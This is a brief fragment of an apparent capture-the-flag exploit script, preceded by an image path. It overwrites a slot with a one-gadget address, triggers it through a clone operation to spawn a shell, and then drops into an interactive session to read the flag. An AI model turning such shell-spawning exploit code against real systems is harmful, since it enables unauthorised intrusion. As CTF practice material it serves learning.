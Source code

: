 ```
setQ(4, p32(gadget))

# We then create a new clone, which should trigger our one gadget and pop a shell.
create()

# Given we now have shell, we can access the flag.
p.interactive()
```
``